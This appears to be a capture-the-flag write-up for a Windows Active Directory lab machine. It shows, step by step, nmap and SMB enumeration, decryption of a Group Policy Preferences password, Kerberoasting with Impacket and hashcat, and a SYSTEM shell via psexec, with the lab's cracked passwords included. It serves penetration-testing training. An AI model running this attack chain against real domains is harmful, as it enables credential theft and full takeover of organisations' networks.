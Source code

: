 
📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.100
```

### 🔍 Service Version and Script Scan
```bash
nmap -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49158,49169,49170,49179 -oA nmap/scripts 10.10.10.100
```

### 🔍 UDP Scan (for completeness)
```bash
nmap -sU -p- --min-rate 5000 -oA nmap/alludp 10.10.10.100
```

Key open ports included [Kerberos](KERBEROS), [SMB](SMB.md), [LDAP](LDAP.md), and [HTTP](HTTP).

---

## 📂 SMB Enumeration

### 🔎 Share Listing with smbmap
```bash
smbmap -H 10.10.10.100
```

### 🔎 Confirm access with enum4linux
```bash
enum4linux -a 10.10.10.100
```

---

## 📁 Replication Share - GPP Password

### 🗂️ Access the Replication share
```bash
smbclient //10.10.10.100/Replication -U ""%""
```

### 🧾 Locate GPP password in `Groups.xml`
```xml
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

### 🔐 Decrypt GPP password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# Output: GPPstillStandingStrong2k18
```

---

## 👤 User Shell

### 🗂️ Enumerate users with access
```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

### 📥 Get `user.txt`
```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
smb: \SVC_TGS\desktop\> get user.txt
```

---

## 🔥 Kerberoasting

### 🎟️ Dump SPNs with Impacket
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

### 🔓 Crack Ticket with Hashcat
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
# Output: Ticketmaster1968
```

---

## 🛠️ Administrator Access

### 🔓 Use cracked password to access shares
```bash
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```

### 📥 Get `root.txt`
```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
smb: \users\administrator\desktop\> get root.txt
```

---

## 🖥️ Shell as SYSTEM (Optional)

### 📦 Use psexec.py from Impacket
```bash
psexec.py active.htb/administrator@10.10.10.100
# Enter password: Ticketmaster1968
```

```cmd
whoami
# Output: nt authority\system
```